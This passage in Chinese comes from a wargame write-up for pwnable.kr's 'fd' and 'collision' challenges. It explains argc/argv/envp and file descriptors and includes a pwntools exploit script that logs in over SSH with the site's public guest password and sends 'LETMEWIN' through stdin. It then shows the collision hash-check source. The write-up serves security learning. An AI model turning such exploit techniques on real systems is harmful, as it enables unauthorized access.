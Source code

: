 >第一个参数argc记录了输入参数的个数。
>
>第二个参数是字符串数组的，字符串数组的每个单元是char*类型的，指向一个c风格字符串，arg[ ]指向的数组中至少有一个字符指针，即arg[0].他通常指向程序中的可执行文件的文件名。
>
>第三个参数是用来取得系统的环境变量，如：在DOS下，有一个PATH变量。当你在DOS提示符下输入一个命令的时候，DOS会首先在当前目录下找这个命令的执行文件。如果找不到，则到PATH定义的路径下去找，找到则执行，找不到返回Bad command or file name 。在DOS命令提示符下键入set可查看系统的环境变量
>

**关于参数fd**
fd 是打开的文件的句柄,它代表的是你打开的文件,
>
>stdin 标准输入的文件标识符为0
>
>stdout 标准输出的文件标识符为1
>
>stderr 标准错误输出的文件标识符为2

所以我们只要让fd为0指向标准输入流 再输入“LETMEWIN\n”就行了

### Exp


```python
#coding=utf-8
from pwn import *

payload=str(0x1234)

shell=ssh(host='pwnable.kr',user='fd',password='guest',port=2222)
#shell.download_file('fd.c')
sh = shell.run('./fd'+' '+payload)
payload="LETMEWIN"
sh.sendline(payload)
sh.interactive()
```

## 0x02 collision

下载得到核心源码

```cpp
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
	int* ip = (int*)p;//把字符指针强转为int指针 char(1字节*4)->int(4字节)
	int i;
	int res=0;
	for(i=0; i<5; i++){
		res += ip[i];
	}
	return res;
}
```

怎么构造p呢，粗暴平均分。。。。除5有小数就调整一下
